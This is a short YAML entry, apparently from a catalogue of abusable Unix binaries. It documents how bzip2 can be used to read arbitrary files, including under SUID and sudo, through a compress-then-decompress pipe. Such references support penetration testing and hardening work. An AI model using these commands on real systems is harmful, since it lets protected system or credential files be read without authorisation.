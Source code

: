 ```yaml
---
description: There are also a number of other utilities that rely on `bzip2` under the hood, e.g., `bzless`, `bzcat`, `bunzip2`, etc. Besides having similar features, they also allow privileged reads if `bzip2` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        bzip2 -c $LFILE | bzip2 -d
  suid:
    - code: |
        LFILE=file_to_read
        ./bzip2 -c $LFILE | bzip2 -d
  sudo:
    - code: |
        LFILE=file_to_read
        sudo bzip2 -c $LFILE | bzip2 -d
---
```

